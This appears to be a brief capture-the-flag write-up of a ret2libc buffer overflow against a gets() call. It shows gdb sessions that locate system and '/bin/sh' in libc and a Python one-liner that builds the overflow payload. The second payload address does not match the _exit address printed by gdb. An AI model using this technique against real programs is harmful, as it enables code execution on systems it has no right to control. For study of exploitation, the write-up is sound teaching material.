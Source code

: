## Buffer Overflow

We observe that the gets function reads input and stores it into a variable allocated with 0x80 (128 bytes).
```
...
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p _exit
$3 = {<text variable, no debug info>} 0xf7ee45c4 <_exit>
(gdb) info proc mappings
process 1978
Mapped address spaces:
    ...
    Start Addr   End Addr       Size     Offset objfile
    ...
    0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
    ...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb)
```
## GDB

The following command in GDB allows you to debug the child process:

set follow-fork-mode child

## Generated Payload

We can generate the payload using the following command:

python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' > /tmp/payload